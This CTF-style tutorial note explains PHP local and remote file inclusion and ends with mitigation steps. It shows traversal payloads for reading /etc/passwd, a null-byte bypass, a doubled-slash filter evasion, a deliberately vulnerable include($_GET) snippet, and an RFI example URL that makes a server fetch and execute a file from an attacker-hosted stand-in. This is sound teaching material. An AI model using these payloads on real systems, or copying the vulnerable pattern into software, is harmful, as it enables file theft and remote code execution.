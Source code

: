 ```yaml
---
title: File Inclusion
description: An overview of diffent file inclusion methods
date: 2024-06-08 00:00:00 +0000
categories: [CTF]
tags: [ctf, web]
---
```


Also known as directory traversal, file inclusion is a vulnerability which allows an attacker to read operating system resources, such as local files on the server. This vulnerability is exploited by manipulating and abusing the web application’s URL to locate and access files stored outside of the application’s root directory.

File inclusion occurs when un-sanitised user input is passed to a function such as PHP’s `file_get_contents`. However the function is not the only facilitator of the issue. Often poor input validation / filtering is the cause of the vulnerability.

[PHP: file_get_contents - Manual](https://www.php.net/manual/en/function.file-get-contents.php)

Using `../../../etc/passwd` is a common way of testing for file inclusion, for example:

1. There is a URL `https://site.com/get.php?file=<FILE_NAME>`
2. The site expects a file parameter like “file.txt” or something inconspicuous.
3. The attacker can leverage this and make the application go up to the root directory by using `../`, and then get whatever file they want from the server.

## Local File Inclusion - PHP
[Good Wordlist here](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt)
Once again picking on PHP, there are functions such as `include`, `include_once`, `require` and `require_once` which include files from the local filesystem. For example:
```php
<?PHP
	include($_GET["lang"]);
?>
```
This would get the “lang” parameter from the URL. Assume this parameter would be `english.php` for the English site, or `spanish.php` for the Spanish site. As previously discussed, an attacked could use a payload of `../../../etc/passwd` to include that file, and therefore retrieve the contents. This works because in the above code snippet, no directory is passed to the include function, and there is no validation of the user’s parameter input.

In the above examples, we have the source code to look at, but in a black box test, it’s important to know the signs of a possible file inclusion vulnerability. A sign in a PHP application would be:
```php
Warning: include(languages/LOL.php): failed to open stream: No such file or directory in /var/www/html/THM-4/index.php on line 12
```
The message discloses important information - we can tell that the application appends `.php` onto the parameter (`LOL.php`), and looks for the file inside the `languages` directory. We can also see that the application directory is `/var/www/html/THM-4/`

So to read `/etc/passwd`, we could try the parameter as `../../../../etc/passwd` (note: 4 x `../` because 4 levels to application directory). However this wouldn’t work, as the application appends the `.php` onto the end, and the file `/etc/passwd.php` doesn’t exist. To get around this, we can use null bytes (0x00 / %00), which basically tells the application to disregard any following text.

The payload would look like: `../../../../../etc/passwd%00`.

NOTE: THE NULL BYTE TRICK IS FIXED IN PHP V5.3.4 AND ABOVE

Be careful of encoding e.g. URL encoding when submitting forms, maybe better to just use the URL or send a request manually.

### Avoiding String Filtering
If the developer adds some string filtering to replace `../` string with an empty string, you can simply double the payload, so it would be:
`....//....//....//....//....//etc/passwd`. This is because the PHP filter only matches the replaces the first subset string `../` it finds and doesn’t do another passwd, as shown below.

![https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/30d3bf0341ba99485c5f683a416a056d.png](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/30d3bf0341ba99485c5f683a416a056d.png)

## Remote File Inclusion - PHP
RFI is a technique used to include remote files into a vulnerable application. Similar to LFI, RFI occurs when improperly sanitizing user input, allowing an attacker to inject an external URL into the `include` function. +

A requirement for RFI is that the `allow_url_fopen` option need to be `on`

The risk of RFI is higher than that of LFI, as RFI can allow an attacker gain remote code execution on the server. The RFI process is roughly as follows:

1. Attacker hosts malicious file (`site.com/bad_command.txt`)
2. Attacker sends a payload including the location of the bad file-
    1. e.g. `http://victim.com/get.php?file=http://site.com/bad_command.txt`
3. The victim server retrieves the malicious file which is being hosted by the attacker
4. `bad_command.txt` is injected into the `include` function and executed.
5. The victim server sends back the result of the execution.

## Mitigation
1. Keep system, services and web app frameworks up to date
2. Turn of PHP errors to avoid leaking the application path
3. Web application firewalls
4. Disable PHP features that cause file inclusion (`allow_url_fopen`, `allow_url_include`)
5. Carefully analyze web application and only allow needed protocols and PHP wrappers
6. Never trust user input - SANITIZE!
7. Implement whitelisting for file names and locations (and also black listing)
